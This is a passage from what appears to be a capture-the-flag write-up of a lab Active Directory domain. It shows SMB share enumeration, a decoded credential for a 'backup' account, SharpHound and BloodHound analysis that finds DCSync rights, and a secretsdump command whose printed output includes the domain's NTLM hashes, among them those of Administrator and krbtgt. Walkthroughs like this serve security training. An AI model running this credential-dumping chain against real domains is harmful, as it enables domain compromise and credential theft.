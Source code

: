     `-L`
*   How many remote shares is the server listing?

    There are `6`
*   There is one particular share that we have access to that contains a text file. Which share is it?

    `backup`
*   What is the content of the file?

    `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`
*   Decoding the contents of the file, what is the full contents?

    `backup@spookysec.local:backup2517860`

## Elevating Privileges within the Domain

* now as we have backup account creds, we log in via RDP.
* tried basic enumeration here too, but no good as we only found a flag and nothing else.
* thus next we can user sharphound to collect all domain inforamtion for us and view it in a graphical manner in bloodhound.
* for this we downloaded [sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) binary and send it to target.
* next we use with collection method as `All` and get a zip of collected info.

```bash
SharpHound.exe --CollectionMethods All --Domain spookysec.local
```

* next starting neo4j and bloodhound we imported our collected data.
* mark backup and svc-admin as owned.
* from here we did many queried to analys what is our path to domain admin.
* but got no luck.
* lastly we queried for `Find Principles with DCSync Rights` and got a list of all account that can perform DCSync on target.
* interestingly here we have our `backup` account in list.

![](2025-05-31-attacktive-directory-5.png)

* The username of the account “backup” gets us thinking. What is this the backup account to?
* hence this rights might be the reason for such an account name.
* but notice our user `backup` does not have full DCSync rights and only have `Generic All` permission on Domain Controller.
* meaning we can perform some of DCSync functionality but can fully make a copy of original DC.
* this is good enough for us as we can copy SAM database from DC with given rights.
* Knowing this, we can use another tool within Impacket called “secretsdump.py”.

```bash
┌──(root💀kali)-[~/thm/attacktive]
└─# secretsdump.py -just-dc backup@spookysec.local
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation
Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
```